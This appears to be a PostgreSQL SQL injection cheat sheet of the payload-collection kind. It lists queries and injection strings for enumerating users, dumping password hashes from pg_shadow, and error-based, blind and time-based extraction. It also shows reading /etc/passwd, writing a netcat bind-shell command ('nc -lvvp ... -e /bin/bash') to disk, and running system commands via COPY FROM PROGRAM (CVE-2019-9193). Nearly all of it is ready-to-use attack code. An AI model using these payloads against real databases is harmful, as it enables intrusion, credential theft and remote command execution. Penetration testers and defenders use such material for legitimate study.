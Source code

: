 <h1>PostgreSQL injection</h1>

<h2>Summary</h2>

* [PostgreSQL Comments](#postgresql-comments)  
* [PostgreSQL Version](#PostgreSQL-Version)  
* [PostgreSQL Current User](#PostgreSQL-Current-User)  
* [PostgreSQL List Users](#PostgreSQL-List-Users)  
* [PostgreSQL List Password Hashes](#PostgreSQL-List-Password-Hashes)  
* [PostgreSQL List Database Administrator Accounts](#PostgreSQL-List-Database-Administrator-Accounts)  
* [PostgreSQL List Privileges](#PostgreSQL-List-Privileges)  
* [PostgreSQL Database Name](#PostgreSQL-Database-Name)  
* [PostgreSQL List Database](#PostgreSQL-List-Database)  
* [PostgreSQL List Tables](#PostgreSQL-List-Tables)  
* [PostgreSQL List Columns](#PostgreSQL-List-Columns)  
* [PostgreSQL Error Based](#PostgreSQL-Error-Based)  
* [PostgreSQL Blind](#PostgreSQL-Blind)  
* [PostgreSQL Time Based](#PostgreSQL-Time-Based)  
* [PostgreSQL Stacked Query](#PostgreSQL-Stacked-Query)  
* [PostgreSQL File Read](#PostgreSQL-File-Read)  
* [PostgreSQL File Write](#PostgreSQL-File-Write)  
* [PostgreSQL Command execution](#PostgreSQL-Command-execution)  


<h2>PostgreSQL Comments</h2>

```
--
/**/
```

<h2>PostgreSQL Version</h2>

```
SELECT version()
```

<h2>PostgreSQL Current User</h2>

```sql
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```

<h2>PostgreSQL List Users</h2>

```sql
SELECT usename FROM pg_user
```

<h2>PostgreSQL List Password Hashes</h2>

```sql
SELECT usename, passwd FROM pg_shadow 
```

<h2>PostgreSQL List Database Administrator Accounts</h2>

```sql
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```

<h2>PostgreSQL List Privileges</h2>

```sql
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```

<h2>PostgreSQL Database Name</h2>

```sql
SELECT current_database()
```

<h2>PostgreSQL List Database</h2>

```sql
SELECT datname FROM pg_database
```

<h2>PostgreSQL List Tables</h2>

```sql
SELECT table_name FROM information_schema.tables
```

<h2>PostgreSQL List Columns</h2>

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='data_table'
```

<h2>PostgreSQL Error Based</h2>

```sql
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name='data_table'+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)

' and 1=cast((SELECT concat('DATABASE: ',current_database())) as int) and '1'='1
' and 1=cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int) and '1'='1
' and 1=cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int) and '1'='1
```

<h2>PostgreSQL Blind</h2>

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -> OK
' and substr(version(),1,10) = 'PostgreXXX' and '1  -> KO
```

<h2>PostgreSQL Time Based</h2>

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

<h2>PostgreSQL Stacked Query</h2>

```sql
Use a semi-colon ";" to add another query
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

<h2>PostgreSQL File Read</h2>

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```
NOTE: ``pg_read_filedoesn't accept the/` character.
```sql
CREATE TABLE temp(t TEXT);
COPY temp FROM '/etc/passwd';
SELECT * FROM temp limit 1 offset 0;
```

<h2>PostgreSQL File Write</h2>

```sql
CREATE TABLE pentestlab (t TEXT);
INSERT INTO pentestlab(t) VALUES('nc -lvvp 2346 -e /bin/bash');
SELECT * FROM pentestlab;
COPY pentestlab(t) TO '/tmp/pentestlab';
```

(#some-markdown-heading)
<h2>PostgreSQL Command execution</h2>
<h3>CVE-2019–9193</h3>

Can be used from Metasploit if you have a direct access to the database, otherwise you need to execute manually the following SQL queries.

```sql
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Drop the table you want to use if it already exists
CREATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM 'id';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
